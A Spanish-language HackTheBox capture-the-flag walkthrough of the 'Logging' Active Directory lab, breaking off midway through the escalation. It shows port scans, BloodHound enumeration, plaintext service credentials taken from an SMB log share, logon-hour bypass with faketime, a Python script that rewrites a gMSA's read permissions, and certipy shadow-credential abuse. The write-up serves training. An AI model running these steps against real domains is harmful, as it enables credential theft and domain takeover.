










# Logging HackTheBox (Intermediate)

# Contexto de la maquina

## Trayectoria Logging

<figure><figcaption></figcaption></figure>

## Descripción

La máquina objetivo forma parte de un entorno **Active Directory (AD)** basado en Windows Server, donde el atacante dispone inicialmente de credenciales válidas. El reto consiste en realizar una enumeración completa del dominio, identificar relaciones de privilegios y explotar múltiples vectores hasta comprometer el controlador de dominio.

**Objetivo del reto**

- Comprometer el dominio `logging.htb`
- Escalar privilegios hasta obtener acceso como **Domain Admin**
- Recuperar las flags de usuario y root

**Tipo de máquina**

- Active Directory
- Windows Server (Domain Controller)

**Habilidades y técnicas evaluadas**

- Enumeración de Active Directory
- Uso de herramientas como BloodHound/RustHound
- Explotación de credenciales expuestas en logs
- Kerberos (TGT, Pass-the-Ticket)
- Abuso de permisos `GenericWrite`
- Ataques sobre cuentas gMSA
- DLL Hijacking
- Active Directory Certificate Services (ADCS)
- Ataques tipo ESC1
- Manipulación de DNS en AD
- Abuso de WSUS para ejecución remota

## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

# Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-20 03:32 -0400
Nmap scan report for 10.129.40.241
Host is up (0.033s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-20 14:32:30Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-20T14:33:36+00:00; +7h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
|_ssl-date: 2026-04-20T14:33:36+00:00; +7h00m00s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-20T14:33:36+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-20T14:33:36+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Not valid before: 2026-04-17T03:20:01
|_Not valid after:  2106-04-17T03:20:01
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8530/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp  open  ssl/unknown
| tls-alpn:
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=DC01.logging.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.logging.htb
| Not valid before: 2026-04-16T15:12:07
|_Not valid after:  2027-04-16T15:12:07
|_ssl-date: 2026-04-20T14:33:36+00:00; +7h00m00s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49688/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49720/tcp open  msrpc         Microsoft Windows RPC
49745/tcp open  msrpc         Microsoft Windows RPC
49775/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2026-04-20T14:33:31
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.26 seconds
```

### Análisis de resultados

Observamos múltiples servicios típicos de un entorno **Active Directory**, entre ellos:

- **SMB (445)**
- **LDAP (389 / 636 / 3268 / 3269)**
- **Kerberos (88)**
- **WinRM (5985)**
- **RPC (135, 593, etc.)**

Además, identificamos el dominio **`logging.htb`** y el controlador de dominio **`DC01.logging.htb`**, información clave para continuar con la enumeración.

Procedemos a añadir estos registros a nuestro archivo `/etc/hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>          logging.htb DC01.logging.htb
```

### Credenciales iniciales

La plataforma proporciona credenciales válidas para comenzar la fase de enumeración:

<figure><figcaption></figcaption></figure>

```
User: wallace.everette
Pass: Welcome2026@
```

# Netexec

Validamos dichas credenciales contra distintos servicios para comprobar su alcance:

```shell
netexec smb logging.htb -u wallace.everette -p 'Welcome2026@'
netexec ldap logging.htb -u wallace.everette -p 'Welcome2026@'
```

Respuesta:

```
SMB         10.129.40.241   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:False)
SMB         10.129.40.241   445    DC01             [+]
logging.htb\wallace.everette:Welcome2026@

LDAP        10.129.40.241   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:logging.htb)
LDAP        10.129.40.241   389    DC01             [+] logging.htb\wallace.everette:Welcome2026@
```

Las credenciales son válidas tanto para **SMB** como para **LDAP**, lo que nos permite continuar con una enumeración más profunda del dominio.

# Escalate user SVC_RECOVERY

## Enumeración del dominio con RustHound

<figure><figcaption></figcaption></figure>

Con credenciales válidas, realizamos una recolección completa de información del dominio utilizando **RustHound**, una alternativa moderna al ingestor clásico de BloodHound.

```shell
apt install cargo
cargo install rusthound
export PATH="$HOME/.cargo/bin:$PATH"
rusthound --domain logging.htb -u wallace.everette -p 'Welcome2026@' --zip
```

Respuesta:

```
---------------------------------------------------
Initializing RustHound at 05:21:14 on 04/20/26
Powered by g0h4n from OpenCyber
---------------------------------------------------

[2026-04-20T09:21:14Z INFO  rusthound] Verbosity level: Info
[2026-04-20T09:21:14Z INFO  rusthound::ldap] Connected to LOGGING.HTB Active Directory!
[2026-04-20T09:21:14Z INFO  rusthound::ldap] Starting data collection...
[2026-04-20T09:21:14Z INFO  rusthound::ldap] All data collected for NamingContext DC=logging,DC=htb
[2026-04-20T09:21:14Z INFO  rusthound::json::parser] Starting the LDAP objects parsing...
[2026-04-20T09:21:14Z INFO  rusthound::json::parser::bh_41] MachineAccountQuota: 10
[2026-04-20T09:21:14Z INFO  rusthound::json::parser] Parsing LDAP objects finished!
[2026-04-20T09:21:14Z INFO  rusthound::json::checker] Starting checker to replace some values...
[2026-04-20T09:21:14Z INFO  rusthound::json::checker] Checking and replacing some values finished!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 14 users parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 65 groups parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 1 computers parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 1 ous parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 1 domains parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 2 gpos parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] 21 containers parsed!
[2026-04-20T09:21:14Z INFO  rusthound::json::maker] .//20260420052114_logging-htb_rusthound.zip created!

RustHound Enumeration Completed at 05:21:14 on 04/20/26! Happy Graphing!
```

Se genera un archivo `.zip` compatible con **BloodHound**, que contiene toda la información necesaria para analizar relaciones, privilegios y posibles vectores de escalada dentro del dominio.

El siguiente paso será importar estos datos en BloodHound para identificar rutas de privilegio hacia usuarios más privilegiados.

## BloodHound

Ahora vamos a instalar `BloodHound` de forma rapida en un `docker`:

URL = [Download BloodHound en Docker](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart)

```shell
wget https://github.com/SpecterOps/bloodhound-cli/releases/latest/download/bloodhound-cli-linux-amd64.tar.gz
tar -xvzf bloodhound-cli-linux-amd64.tar.gz
./bloodhound-cli install
```

Respuesta:

```
..............................<RESTO DE INFO>......................................
Container bloodhound-graph-db-1  Creating
 Container bloodhound-app-db-1  Creating
 Container bloodhound-graph-db-1  Created
 Container bloodhound-app-db-1  Created
 Container bloodhound-bloodhound-1  Creating
 Container bloodhound-bloodhound-1  Created
 Container bloodhound-app-db-1  Starting
 Container bloodhound-graph-db-1  Starting
 Container bloodhound-app-db-1  Started
 Container bloodhound-graph-db-1  Started
 Container bloodhound-graph-db-1  Waiting
 Container bloodhound-app-db-1  Waiting
 Container bloodhound-graph-db-1  Healthy
 Container bloodhound-app-db-1  Healthy
 Container bloodhound-bloodhound-1  Starting
 Container bloodhound-bloodhound-1  Started
[+] BloodHound is ready to go!
[+] You can log in as `admin` with this password: bnf8XsztC4Hypx6nMV5eSlhHpuDfEWgH
[+] You can get your admin password by running: bloodhound-cli config get default_password
[+] You can access the BloodHound UI at: http://127.0.0.1:8080/ui/login
```

Ahora que esta importado en nuestro `docker` y levantado podremos acceder a el desde la siguiente `URL`.

```
URL = http://127.0.0.1:8080/ui/login
```

Nos logueamos con las credenciales propocionadas por la herramienta, entrando nos pedira cambiar las credenciales y ya nos metera dentro:

```
User: admin
Pass: bnf8XsztC4Hypx6nMV5eSlhHpuDfEWgH
```

Al iniciar sesión, la herramienta nos pedirá cambiar la contraseña. Tras esto, ya podremos acceder al panel principal.

A continuación, importamos el archivo `.zip` generado previamente con **RustHound**. Tras unos segundos de procesamiento, tendremos disponibles todos los datos del dominio para su análisis.

## Análisis BloodHound

Una vez cargados los datos en BloodHound, comenzamos el análisis de posibles vectores de escalada de privilegios.

### Usuario inicial

El usuario **`wallace.everette`** no presenta relaciones directas interesantes que permitan una escalada inmediata.

### Usuarios relevantes identificados

Durante el análisis encontramos varios usuarios de interés:

#### 🔹 `JAYLEE.CLIFTON`

- Pertenece al grupo **Performance Log Users**
- Este grupo puede resultar interesante en ciertos escenarios de escalada de privilegios (aunque de momento no se explota directamente)

<figure><figcaption></figcaption></figure>

#### 🔹 `TOBY.BRYNLEIGH`

- Usuario con privilegios de **administrador del dominio**
- Objetivo claro a largo plazo

<figure><figcaption></figcaption></figure>

#### 🔹 `SVC_RECOVERY`

- Usuario con capacidad de acceso remoto mediante **WinRM**
- Presenta permisos interesantes dentro del dominio

<figure><figcaption></figcaption></figure>

### Relación clave

Uno de los hallazgos más relevantes es que el usuario **`SVC_RECOVERY`** posee permisos **GenericWrite** sobre el objeto de equipo:

```
MSA_HEALTH$
```

Este tipo de permiso permite modificar atributos del objeto, lo que potencialmente puede derivar en una escalada de privilegios dependiendo del contexto (por ejemplo, ataques sobre cuentas de máquina o delegaciones).

En este punto hemos identificado:

- Credenciales válidas en el dominio
- Estructura interna del Active Directory
- Usuarios relevantes con distintos niveles de privilegio
- Un vector potencial de escalada mediante **GenericWrite sobre MSA_HEALTH$**

Con esta información, el siguiente paso lógico será profundizar en la enumeración del servicio **SMB** y explorar posibles vectores de explotación adicionales.

## SMB

Comenzamos enumerando los recursos compartidos disponibles a través del servicio **SMB** utilizando las credenciales obtenidas previamente:

```shell
smbclient -L //logging.htb/ -U wallace.everette%'Welcome2026@'
```

Respuesta:

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Logs            Disk
	NETLOGON        Disk      Logon server share
	SYSVOL          Disk      Logon server share
	WSUSTemp        Disk      A network share used by Local Publishing from a Remote WSUS Console Instance.
```

### Análisis de recursos compartidos

Observamos varios recursos estándar del sistema, pero destacan especialmente dos que no son típicos:

- `Logs`
- `WSUSTemp`

El recurso **`WSUSTemp`** llama especialmente la atención debido a su descripción:

> _“Recurso compartido utilizado por la publicación local desde una instancia remota de consola WSUS”_

Esto sugiere que podría contener archivos temporales o información sensible relacionada con actualizaciones o automatizaciones.

### Acceso a recursos compartidos

Intentamos acceder a `WSUSTemp`:

```shell
smbclient //logging.htb/WSUSTemp -U wallace.everette%'Welcome2026@'
```

Respuesta:

```
Try "help" to get a list of possible commands.
smb: \>
```

Aunque la autenticación es exitosa, no es posible listar el contenido del recurso, lo que indica que existen **restricciones de permisos a nivel de lectura o enumeración**.

A continuación, probamos con el recurso `Logs`:

```shell
smbclient //logging.htb/Logs -U wallace.everette%'Welcome2026@'
```

Respuesta:

```
Try "help" to get a list of possible commands.
smb: \>
```

En este caso sí disponemos de permisos suficientes para enumerar el contenido:

```
  .                                   D        0  Thu Apr 16 19:10:09 2026
  ..                                  D        0  Thu Apr 16 19:10:09 2026
  Audit_Heartbeat.log                 A     1294  Thu Apr 16 19:10:09 2026
  IdentitySync_Trace_20260219.log      A     8488  Thu Apr 16 19:10:09 2026
  Service_State.log                   A      468  Thu Apr 16 19:10:09 2026
  TaskMonitor.log                     A     1170  Thu Apr 16 19:10:09 2026

		6657279 blocks of size 4096. 1034292 blocks available
```

### Análisis de logs

Identificamos como más relevante el archivo:

```
IdentitySync_Trace_20260219.log
```

Procedemos a descargarlo:

```shell
get IdentitySync_Trace_20260219.log
```

Al inspeccionar su contenido, encontramos información sensible relacionada con procesos de autenticación LDAP:

```
..................................<RESTO DE INFO>..................................
[2026-02-09 03:00:03.125] [PID:4102] [Thread:04] VERBOSE - ConnectionContext Dump: { Domain: "logging.htb", Server: "DC01", SSL: "False", BindUser: "LOGGING\svc_recovery", BindPass: "Em3rg3ncyPa$$2025", Timeout: 30 }
[2026-02-19 03:00:03.488] [PID:4102] [Thread:04] ERROR - System.DirectoryServices.Protocols.LdapException: A local error occurred.
   at System.DirectoryServices.Protocols.LdapConnection.Bind(NetworkCredential credential)
   at logging.IdentitySync.Engine.LdapProvider.Connect()
   --- Server Error Details ---
   Server error: 8009030C: LdapErr: DSID-0C090569, comment: AcceptSecurityContext error, data 52e, v4563
   Hex Error: 0x31 (LDAP_INVALID_CREDENTIALS)
   Win32 Error: 49 (Invalid Credentials)
   ----------------------------
[2026-02-19 03:00:03.510] [PID:4102] [Thread:12] WARN  - Connectivity failed for logging\svc_recovery. Checking alternate Domain Controller...
..................................<RESTO DE INFO>..................................
```

### Hallazgo relevante

El log expone credenciales en texto claro correspondientes al usuario:

```
svc_recovery
```

Además, se observan errores de autenticación posteriores, lo que sugiere posibles intentos fallidos o cambios en la contraseña.

### Validación de credenciales y restricciones

<figure><figcaption></figcaption></figure>

Al intentar utilizar estas credenciales, comprobamos que la cuenta presenta **restricciones horarias de inicio de sesión**. Esto implica que la autenticación solo es válida dentro de una ventana temporal específica definida en el dominio.

Para sortear esta limitación, utilizamos la herramienta `faketime` para ajustar nuestro entorno al desfase horario del servidor:

```shell
sudo apt install faketime
```

> ⚠️ **Nota importante:**  
> La contraseña válida es `Em3rg3ncyPa$$2026`, no `2025`. Este detalle es crítico para que las siguientes técnicas funcionen correctamente.

### Obtención de TGT (Kerberos)

Solicitamos un **Ticket Granting Ticket (TGT)** mediante Impacket, simulando el horario correcto:

```shell
faketime -f "+7h" impacket-getTGT 'logging.htb/svc_recovery:Em3rg3ncyPa$$2026' -dc-ip <IP>
```

Respuesta:

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in svc_recovery.ccache
```

Exportamos el ticket en la variable de entorno correspondiente:

```shell
export KRB5CCNAME=/<PATH>/svc_recovery.ccache
```

### Validación mediante Kerberos

Probamos la autenticación utilizando el ticket obtenido:

```shell
faketime -f '+7h' netexec smb logging.htb -u svc_recovery --use-kcache
```

Respuesta:

```
SMB         logging.htb     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:False)
SMB         logging.htb     445    DC01             [+] LOGGING.HTB\svc_recovery from ccache
```

La autenticación es exitosa, lo que confirma que:

- Las credenciales son válidas
- El ticket Kerberos es funcional
- Podemos autenticarnos sin necesidad de contraseña en claro

Adicionalmente, este acceso también es válido sobre servicios como **LDAP**.

Con este nuevo nivel de acceso, recordamos que el usuario `svc_recovery` posee permisos **GenericWrite** sobre la cuenta:

```
MSA_HEALTH$
```

Este privilegio permite **modificar atributos del objeto gMSA**, aunque no posibilita directamente la lectura de su contraseña. No obstante, abre la puerta a técnicas de abuso que exploraremos en la siguiente fase para continuar con la escalada de privilegios.

# Escalate user msa_health$

<figure><figcaption></figcaption></figure>

Las cuentas **gMSA (Group Managed Service Accounts)** almacenan su contraseña en el atributo:

```
msDS-ManagedPassword
```

Sin embargo, el acceso a este atributo está restringido. Para poder leerlo, el usuario autenticado debe pertenecer al grupo definido en:

```
msDS-GroupMSAMembership
```

En este caso, el usuario `svc_recovery` **no forma parte de dicho grupo**, por lo que cualquier intento directo de volcar la contraseña resultará en un error de **acceso denegado**.

### Intento de volcado con gMSADumper

Clonamos la herramienta especializada:

```shell
git clone https://github.com/micahvandeusen/gMSADumper.git
cd gMSADumper
```

Intentamos ejecutar el volcado:

```shell
faketime -f '+7h' python3 gMSADumper.py -u svc_recovery -k --no-pass -d logging.htb -l dc01.logging.htb
```

> **Nota:** Se utiliza `faketime -f '+7h'` debido al desfase horario del servidor (+7h), necesario para cumplir con las restricciones de autenticación.

Como era de esperar, el intento falla, ya que no tenemos permisos suficientes para leer el atributo protegido.

## Solución 1: Modificación de `msDS-GroupMSAMembership`

Dado que contamos con permisos **GenericWrite** sobre la cuenta `MSA_HEALTH$`, podemos modificar atributos del objeto en LDAP.

La idea consiste en:

- Añadir el **SID de un usuario controlado** (`wallace.everette`)

<figure><figcaption></figcaption></figure>

- Incluirlo en `msDS-GroupMSAMembership`
- Obtener permisos para leer la contraseña de la gMSA

Obtenemos el SID desde BloodHound y construimos un script en Python para modificar el **Security Descriptor**:

> grant_gmsa_read.py

```python
#!/usr/bin/env python3
import ldap3
import sys

# Ajusta estos valores según tu CTF
TARGET_IP = '<IP_VICTIM>'
DOMAIN = 'logging.htb'
USER = 'svc_recovery'
PASSWORD = 'Em3rg3ncyPa$$2026'
TARGET_SID = 'S-1-5-21-4020823815-2796529489-1682170552-2111'  # SID de wallace.everette

# Conectar vía NTLM (necesita horario permitido o usar otro usuario)
server = ldap3.Server(TARGET_IP, get_info=ldap3.ALL)
conn = ldap3.Connection(server, user=f'{DOMAIN}\\{USER}', password=PASSWORD,
                       authentication=ldap3.NTLM, auto_bind=True)

print("[+] Conectado a LDAP")

# Construir el Security Descriptor
from impacket.ldap import ldaptypes

sd = ldaptypes.SR_SECURITY_DESCRIPTOR()
sd['Revision'] = b'\x01'
sd['Sbz1'] = b'\x00'
sd['Control'] = 32772
sd['OwnerSid'] = ldaptypes.LDAP_SID()
sd['OwnerSid'].fromCanonical('S-1-5-18')
sd['GroupSid'] = b''
sd['Sacl'] = b''

acl = ldaptypes.ACL()
acl['AclRevision'] = 4
acl['Sbz1'] = 0
acl['Sbz2'] = 0

ace = ldaptypes.ACE()
ace['AceType'] = 0  # ACCESS_ALLOWED_ACE_TYPE
ace['AceFlags'] = 0

nace = ldaptypes.ACCESS_ALLOWED_ACE()
nace['Mask'] = ldaptypes.ACCESS_MASK()
nace['Mask']['Mask'] = 983551  # Permisos necesarios para leer la contraseña
nace['Sid'] = ldaptypes.LDAP_SID()
nace['Sid'].fromCanonical(TARGET_SID)

ace['Ace'] = nace
acl.aces = [ace]
sd['Dacl'] = acl

# Aplicar la modificación
dn = 'CN=MSA_HEALTH,CN=MANAGED SERVICE ACCOUNTS,DC=LOGGING,DC=HTB'
conn.modify(dn, {'msDS-GroupMSAMembership': [(ldap3.MODIFY_REPLACE, [sd.getData()])]})

print(f"[+] Resultado: {conn.result}")
print(f"[+] {TARGET_SID} ahora puede leer la contraseña de MSA_HEALTH")
```

Este script:

- Se conecta vía LDAP usando `ldap3`
- Construye un `Security Descriptor` válido
- Añade una ACE con permisos de lectura sobre la contraseña
- Modifica el atributo `msDS-GroupMSAMembership`

> ⚠️ **Limitación importante:**  
> La cuenta `svc_recovery` tiene restricciones horarias, por lo que este método solo funcionará dentro de la ventana permitida (aprox. 03:00 AM hora del servidor).

Debido a esta limitación, la ejecución del script no resulta viable en este escenario.

## Solución 2 (Bypass): Shadow Credentials con `certipy-ad`

Para evitar depender de restricciones horarias, utilizamos una técnica más robusta basada en **Shadow Credentials** mediante `certipy-ad`.

Para evitar depender de restricciones horarias, utilizamos una técnica más robusta basada en Shadow Credentials mediante certipy-ad.

```shell
certipy-ad shadow auto -k -no-pass -target dc01.logging.htb -dc-ip <IP_VICTIM> -account 'MSA_HEALTH$'
```

Respuesta:

```
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'msa_health$'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3b9e41bb3a9940d3a210ed6c24a42045'
[*] Adding Key Credential with device ID '3b9e41bb3a9940d3a210ed6c24a42045' to the Key Credentials for 'msa_health$'
[*] Successfully added Key Credential with device ID '3b9e41bb3a9940d3a210ed6c24a42045' to the Key Credentials for 'msa_health$'
[*] Authenticating as 'msa_health$' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'msa_health$@logging.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'msa_health.ccache'
[*] Wrote credential cache to 'msa_health.ccache'
[*] Trying to retrieve NT hash for 'msa_health$'
[*] Restoring the old Key Credentials for 'msa_health$'
[*] Successfully restored the old Key Credentials for 'msa_health$'
